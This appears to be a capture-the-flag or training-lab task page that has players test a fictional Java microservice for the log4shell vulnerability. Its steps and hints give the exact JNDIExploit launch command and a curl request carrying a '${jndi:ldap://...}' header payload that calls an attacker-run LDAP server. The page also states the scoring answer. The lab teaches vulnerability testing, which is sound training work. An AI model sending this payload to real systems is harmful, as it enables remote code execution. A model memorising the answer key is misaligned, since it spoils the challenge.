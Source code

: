 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is written in Java and uses log4j.

You need to figure out if the <code>sudosingles-optimizer</code> service is vulnerable to the log4shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if <code>sudosingles-optimizer</code> is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the log4shell exploit.

TLDR; you’re going to trick <code>sudosingles-optimizer</code> into connecting to a malicious server so you can run whatever commands we want inside its container.

You have to set up the server first. To do this, do the following:

    Open the Terminal Emulator application from the dock on the bottom.

    Navigate to the hacker folder by running “cd /config/Desktop/hacker”

    Find your private ip address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like 10.0.XX.XX or 10.0.XX.XXX

    Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3 above.

If you see something like the below, you’re on the right track:

<pre> 

<code> 

[+] LDAP Server Start Listening on 1389... 

[+] HTTP Server Start Listening on 9001... 

</code> 

</pre>

To test to make sure it’s running correctly, <i>open another Terminal Emulator window</i> and run the following command, where YOURIP is your local IP: <code>curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'</code>

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer will look something like this (fill in the blanks):

<pre> 

<code> 

[+] _______ ______: ___ 

</code> 

</pre>

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

String answer:

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the <code>-h</code> flag?

### HINT 2

<code>hostname -I</code> will give you your private IP address.

<code>java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS</code> will start the server properly.

Triple-check to make sure you’re using that IP address.

The answer is the <i>whole last line</i> from the Terminal window where you first ran the JNDIExploit program. Punctuation and all.

### HINT 3

1. Open a Terminal Emulator window

2. Run <code>hostname -I</code> to get your ip address

3. Run <code>java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP</code>

4. Open another window and run <code>curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'</code>

5. If you are successful, you should see a line that looks like the following show up in your original terminal window: <code>[+] Response code: 200</code>
